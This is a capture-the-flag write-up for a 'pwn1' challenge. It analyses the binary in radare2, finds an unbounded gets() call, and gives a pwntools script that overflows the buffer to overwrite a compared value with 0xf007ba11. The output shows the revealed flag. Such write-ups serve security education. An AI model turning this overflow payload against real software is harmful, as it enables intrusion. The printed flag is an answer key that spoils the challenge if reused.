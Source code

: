 # pwn1 #

This challenge did not give us any clue, this was the description of the challenge:

![description](imgs/description.png)

We downloaded the binary named pwn1.

```
sha256sum pwn1
d7649dfe173eedd569664d41a400082187a2d21287e65a8016d564c4f8c648fe  pwn1
```
## Running the binary ##
Running the binary revealed that there was some kind of check going on ...
```
./pwn1
This is a super secret program
Noone is allowed through except for those who know the secret!
What is my secret?
foo
That is not the secret word!
```
## Binary analysis ##
We fired up our trusty radare2 to analyze the binary ...
```
r2 pwn1copy
[0x08048450]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
```
We listed the functions with the afl command and something poped out inmediatly:

![afl-functions](imgs/afl.png)

There was an intersting function called sym.print_flag (hopefully that would give us our flag),
after inspecting the execution flow we noticed that there was a comparison between an address in
memory and the constant 0xf007ba11.

![jne](imgs/jne.png)

We knew that our buffer input is stored in ebp-0x23 as shown in the instructions below:

```
0x08048611 8d45dd         lea eax, dword [local_23h]
0x08048614 50             push eax
0x08048615 e8b6fdffff     call sym.imp.gets;[gc]
```

To overwrite the address at ebp-0xc we needed 23 bytes (gets was not limiting our input length),
and after that we had to add the value 0xf007ba11. We used pwntools to generate a quick script
to connect to the challenge to get our flag.

```python
from pwn import *

c = remote('pwn.ctf.tamu.edu', 4321)
print c.recvline()
print c.recvline()
print c.recvline()
string = '\x41' * 23 + '\x11\xba\x07\xf0'
print c.sendline(string)
print c.recvline()
print c.recvline()
```
## Getting the flag ##
After running our script, we were able to get the flag ...

```
python exp.py
[+] Opening connection to pwn.ctf.tamu.edu on port 4321: Done
This is a super secret program

Noone is allowed through except for those who know the secret!

What is my secret?

None
How did you figure out my secret?!

gigem{H0W_H4RD_1S_TH4T?}

[*] Closed connection to pwn.ctf.tamu.edu port 4321
```
